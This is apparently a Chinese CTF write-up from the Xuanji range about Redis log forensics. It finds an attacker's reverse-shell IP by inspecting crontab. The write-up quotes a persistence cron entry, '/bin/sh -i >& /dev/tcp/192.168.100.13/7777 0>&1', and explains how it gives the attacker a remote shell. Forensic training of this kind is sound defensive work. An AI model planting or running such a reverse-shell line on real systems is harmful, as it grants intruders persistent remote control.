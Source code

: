 ### Redis 日志分析反弹 Shell IP

话不多说，直接上题（玄机靶场）

![](https://pic1.imgdb.cn/item/681d74d158cb8da5c8e7ba54.png)

题目让我们找到黑客反弹 shell 的 IP 是啥作为 flag 进行提交

那我们可以查看一下当前用户的定时任务那一些，如果黑客通过定时任务进行持久化攻击，他们可能会在 crontab 中留下定时执行的恶意脚本、命令或反弹 shell 的配置

因此，通过检查 `crontab -l`，很可能会发现黑客设置的定时任务，从而找到恶意活动的迹象，那就试试呗

```sh
crontab -l
```

![](https://pic1.imgdb.cn/item/681d995458cb8da5c8e869cb.png)

这个定时任务每分钟执行一次

```sh
/bin/sh -i >& /dev/tcp/192.168.100.13/7777 0>&1
```

- `-i` 选项表示启动一个交互式 shell
- `>& /dev/tcp/192.168.100.13/7777` 使用 Bash 的网络重定向特性，将标准输出和标准错误重定向到 `192.168.100.13` 的 7777 端口
- `0>&1` 表示将标准输入重定向到标准输出

这种命令通常用于创建一个反向 shell，也称为反弹 shell

通过这种方式，黑客可以在目标主机上获得一个远程 shell 访问权限，并能够执行任意命令

